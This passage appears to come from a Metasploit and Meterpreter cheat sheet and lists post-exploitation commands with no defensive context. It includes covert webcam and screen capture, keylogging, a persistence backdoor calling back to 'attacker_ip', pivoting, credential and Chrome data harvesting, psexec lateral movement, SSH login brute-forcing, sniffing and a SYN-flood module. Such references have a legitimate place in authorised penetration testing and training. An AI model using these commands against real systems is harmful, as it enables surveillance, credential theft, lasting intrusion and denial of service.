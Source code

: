 ```bash
# Screenshot & webcam
screenshot
webcam_snap
webcam_stream

# Keylogging
keyscan_start
keyscan_dump
keyscan_stop

# Persistence
run persistence -X -i 10 -p 4444 -r attacker_ip

# Pivoting
run autoroute -s 10.10.10.0/24
portfwd add -l 3389 -p 3389 -r target_ip

# Shell
shell  # Drop to system shell
```

### Post-Exploitation Modules
```bash
# Credential harvesting
use post/windows/gather/credentials/credential_collector
use post/windows/gather/enum_chrome

# Network enumeration
use post/windows/gather/arp_scanner
use post/windows/gather/enum_shares

# Privilege escalation
use post/multi/recon/local_exploit_suggester
use post/windows/gather/enum_patches

# Lateral movement
use exploit/windows/smb/psexec
use exploit/windows/smb/psexec_psh
```

### Auxiliary Modules
```bash
# Scanners
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/ssh/ssh_login

# Sniffers
use auxiliary/sniffer/psnuffle

# Denial of Service
use auxiliary/dos/tcp/synflood

# Fuzzing
use auxiliary/fuzzers/http/http_form_field
```

---